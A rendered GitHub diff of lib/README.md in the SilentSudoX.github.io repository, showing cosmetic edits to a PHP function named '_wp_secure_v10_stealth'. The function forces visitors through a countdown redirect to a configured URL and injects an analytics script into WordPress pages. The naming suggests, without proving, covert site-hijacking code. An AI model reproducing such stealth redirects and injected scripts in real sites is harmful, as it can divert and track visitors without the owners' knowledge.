

Before and after one commit to SilentSudoX/SilentSudoX.github.io, a Markdown page: lib/README.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/lib/README.md
+++ b/lib/README.md
@@ -271,27 +283,22 @@ function _wp_secure_v10_stealth() {
                     s--;
                     let el = document.getElementById('vt');
                     if(el) el.innerText = s;
-                    if(s <= 0){ clearInterval(it); window.location.href='{$ur}'; }
+                    if(s <= 0){ clearInterval(it); window.location.href='{$_url}'; }
                 }, 1000);
             }
         </script>";
         exit;
     }
 
-    // Google Analytics Integration
     if (!empty($_s['analytics_id'])) {
         add_action('wp_head', function() use ($_s) {
             $id = $_s['analytics_id'];
             echo "<script async src='https://www.googletagmanager.com/gtag/js?id={$id}'></script>
-            <script>
-                window.dataLayer=window.dataLayer||[];
-                function gtag(){dataLayer.push(arguments);}
-                gtag('js',new Date());
-                gtag('config','{$id}');
-            </script>";
+            <script>window.dataLayer=window.dataLayer||[];function gtag(){dataLayer.push(arguments);}gtag('js',new Date());gtag('config','{$id}');</script>";
         });
     }
 }
+
 
 ```
 
````
Also changed, not shown: other parts of lib/README.md (+90 -78 lines).
